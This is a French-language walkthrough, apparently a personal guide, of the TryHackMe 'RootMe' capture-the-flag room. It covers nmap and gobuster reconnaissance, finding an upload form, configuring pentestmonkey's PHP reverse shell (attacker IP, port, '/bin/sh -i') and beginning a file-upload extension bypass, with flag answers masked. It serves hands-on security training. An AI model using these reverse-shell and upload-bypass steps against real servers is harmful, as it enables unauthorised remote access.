 # **[ROOTME](https://tryhackme.com/r/room/rrootme)**

## TACHE 1 - Deploy the machine

Suivez simplement les instructions pour déployer la machine virtuelle.

<br>

## TACHE 2 - Reconnaissance
<pre>
First, let's get information about the target.
<br>Commençons par obtenir des informations sur la cible.
</pre>

### Question 1
<pre>
Scan the machine, how many ports are open ?
<br>Scannez la machine, combien de ports sont ouverts ?
</pre>

### Question 2
<pre>
What version of Apache is running?
<br>Quelle version d'Apache est active?
</pre>

### Question 3
<pre>
What service is running on port 22?
Quel service est exécuté sur le port 22?
</pre>

J'ai regroupé les trois premières questions car nous pouvons y répondre avec une seule commande:

> [!TIP]
> Question Hint
>
> Use nmap to do a port scan.
> <br>Utilisez nmap pour effectuer le scanne de port

<br>En cherchant dans le manuel de la commande `nmap`, on voit que l'option `-sV` permet de scanner les ports ouverts et d'afficher les informations relatives aux services ainsi comme leur version:

```bash
nmap -sV 10.10.182.207
```

> [!WARNING]
> Adaptez la commande à l'adresse IP de VOTRE machine virtuelle. Elle change à chaque connexion, il est donc peu probable qu'elle soit identique à la mienne au moment où j'écris ce guide.

Réponse 1: <b>x</b>
<br>Réponse 2: <b>x.x.xx</b>
<br>Réponse: <b>xxx</b>

<br>

### Question 4
<pre>
What is the hidden directory?
Quel est le repertoire caché?
</pre>

Pour répondre à cette question, utilisez l'astuce qui ne nécessite pas de réponse:

> [!TIP]
> gobuster dir -u MACHINE_IP -w WORDLIST_PATH

Remplacez `MACHINE_IP` par l'IP de votre machine virtuelle et `WORDLIST_PATH` par le chemin de l'un des wordlists, qui, pour Gobuster, se trouvent dans: `/usr/share/wordlists/dirbuster/`

Réponse: <b>/xxxxx/</b>

<br>

## TACHE 3 - Getting a Shell
<pre>
Find a form to upload and get a reverse shell, and find the flag.
Trouvez un formulaire pour télécharger et obtenir un shell inversé et trouvez le drapeau.
</pre>

> [!TIP]
> Search for "file upload bypass" and "PHP reverse shell".
> Recherchez « file upload bypass » et « PHP reverse shell ».

<br>Commencez par ouvrir Firefox sur la machine distante et rentrez son IP:

<pre>
http://MACHINE_IP
</pre>

<br>Vous verrez une page d'accueil avec simplement écrit: 

<pre>
root@rootme:~#
Can you root me?
</pre>

Vous ne pouvez rien faire sur la page d'accueil mais il est toujours bon de regarder ce qui se cache dans le code-source avec `CTRL+U`:

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <link rel="stylesheet" href="css/home.css">
    <script src="js/maquina_de_escrever.js"></script>
    <title>HackIT - Home</title>
</head>
<body>
    <div class="main-div">
        <p class="title">root@rootme:~#</p>
        <p class="description">
            Can you root me?
        </p>
    </div>

    <!--  -->

    <script>
        const titulo = document.querySelector('.title');
        typeWrite(titulo);
    </script>
</body>
</html>
```

Bon, je n'ai jamais dit que c'était toujours intéressant mais c'est un réflexe à avoir systématiquement. Mais ce code ne nous apporte rien.
<br>Rendons nous dans le dossier caché que nous avons découvert avec Gobuster toute à l'heure:

<pre>
http://MACHINE_IP/dossier
</pre>

Ah, tiens, un formulaire de téléchargement ! Comme conseillé dans l'astuce:

<pre>
Select a file to upload:
Browse... No file selected
Upload
</pre>

Nous allons donc pouvoir uploader un script, plus précisément, un script de `reverse shell en php` puisque c'est une des contraintes de l'astuce.
<br>Après quelques recherches, il semble qu'il y en ait un qui soit souvent utilisé, celui de [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell).

Rendez-vous dans le dossier de téléchargement de la machine distante et téléchargez le script:

```bash
cd Downloads
```
```bash
git clone https://github.com/pentestmonkey/php-reverse-shell
```

Puis rendez-vous dans le dossier:

```bash
cd php-reverse-shell
```

Il va falloir modifier l'IP et le port dans le fichier `php-reverse-shell.php`. 
<br>Editez-le avec `nano` et modifiez ces lignes comme suit:

```php
[...]

set_time_limit (0);
$VERSION = "1.0";
$ip = 'YOUR_MACHINE_IP';  // CHANGE THIS
$port = 80;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

[...]
```

<br>Nous utilisons le serveur web de la machine distante, qui est sur le port 80.
<br>Il faut, ensuite, rendre le fichier exécutable:

```bash
chmod +x php-reverse-shell.php
```

Vous pouvez maintenant uploader le fichier php... BIM ! Une erreur !
<br>Elle est dûe au fait que les fichiers `php` ne sont pas autorisés à être téléchargés. Aucun problème, nous allons essayer de contourner le téléchargement en modifiant l'extension du fichier.